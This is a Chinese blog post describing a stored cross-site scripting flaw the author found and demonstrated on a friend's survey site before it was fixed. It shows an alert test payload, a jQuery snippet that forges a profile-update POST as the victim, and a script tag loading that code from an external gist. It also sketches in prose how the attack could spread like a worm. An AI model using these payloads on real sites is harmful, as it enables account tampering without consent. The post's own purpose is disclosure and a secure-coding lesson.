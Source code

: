 ```yaml
---
layout: post
title: 一次简单的 Cross-Site Scripting XSS 跨站脚本攻击

published: true

tags:
- javascript
- cross-site scripting
- xss
- web security

type: post
status: publish
---
```


[Cross-Site Scripting XSS](http://en.wikipedia.org/wiki/Cross-site_scripting) 做网页应用的都了解。之前一直知道在开发中要注意防范这个，但是没有试过。一个偶然的机会，在朋友开发的一个网站上小试了一把。

### 发现漏洞

说实话现在同事或者朋友的网站，见了输入框就想试一把 Javascript 注入。这次有一个某数据调查网站，做的十分精巧，用起来也很不错。其中有一个页面，是用户可以自己创建一个表单。表单可以有很多种元素，包括单选、 多选、 单行文本、 多行文本、 数字、 日期、 下拉框等。大多数用户输入都是安全的，但是还是发现了用户自定义单选选项，这个的 Javascript 输入没有被转义。

![在 input 中输入 Javascript]({{ Configr.site['static_url'] }}/images/2013/xss-javascript-code-inject.jpg)

上图可以看到在用户自定义表单的单选项目时，在项目选项中输入了一个简单的 `<script>alert(1);</script>`

![没有被转移的 Javascript]({{ Configr.site['static_url'] }}/images/2013/xss-unescaped-javascript.jpg)

保存后，打开这个编辑页面，都可以看到这个没有被转移的 Javascript 被执行了。

### 进行攻击

哦耶，下一步就是想如何利用这个漏洞了。如何让更多的用户访问到被恶意代码注入的网页？我测试的将表单发给用户，但是表单填写页面的 Javascript 都被转移了，即 注入 只存在在编辑页面上。幸好该产品有一个合作编辑功能，即可以把某个表单共享给好友让他一起编辑。

<!-- more -->

下面就是完善注入的代码达到攻击的效果。注入的 Javascript 通过获取被攻击用户的 Cookies，就可以伪装称被攻击者来进行操作。我采取了用户 Profile 管理的一个接口，用户在 Profile 管理时，可以通过一个 form 来修改用户名。这个 form 是一个很简单的 post 提交。我们可以通过 注入 的 Javascript 来伪造他。

    $(function(){
      var randomNum = Math.floor(Math.random() * 10000);

      $.post('/profile', {
        '_method': 'put',
        'user[nick_name]': 'I Love Feng Zhichao ' + randomNum
      });
    });

上面这段代码就是通过 jQuery 来 Post 一个请求到 /profile 上，来更新 user 的 nick_name。注意由于该产品不允许有重复的 nick_name，所以加入了一个随机数字来保证唯一性。（之前试了 n 把一直不成功才发现是用户名重复...）

由于该表单选项有字符数限制，只能将这段代码托管到别的地方，又是 [github](https://github.com/) 上： [https://gist.github.com/4681574](https://gist.github.com/4681574)。获取其 raw 文件 url 为：https://gist.github.com/raw/4681574.js。

![攻击的 Javascript]({{ Configr.site['static_url'] }}/images/2013/xss-attack-code.jpg)

在表单上注入 `<script src='https://gist.github.com/raw/4681574.js'>`。

### 小试牛刀

先试一个，将该表单共享给某个好友，当该好友打开其编辑页面时：

![Ajax 的 Post 请求]({{ Configr.site['static_url'] }}/images/2013/xss-ajax-post.jpg)

注入的 Javascript 会发送一个 Ajax Post 请求，这个请求就会将被攻击用户的用户名修改了。

![被恶意修改了的用户名]({{ Configr.site['static_url'] }}/images/2013/xss-modified-user-nick-name.jpg)

看上图的右上角，被攻击用户的用户名已经被注入的 Javascript 恶意修改了。

### 后记

发给几个朋友娱乐了一下并告知他们后，这个漏洞很快就被修复了，我也没有做更进一步的攻击。如果真正的想做攻击的话，注入的脚步需要更为复杂一些，而且需要像病毒一样的可自我传播。就不能仅仅是修改个用户名这么娱乐化了。比如可以通过 Javascript 再给被攻击者创建一个带有注入脚步的表单，然后获取被攻击者的好友并把这个表单共享给他们编辑。这样就会使攻击散播的更为广泛。

这个知道就行了，大家以后的代码都得谨慎，可不能为了一点儿偷懒或者自以为用户很乖就忽视 XSS。记住一点，永远不能轻易相信用户提交的数据！
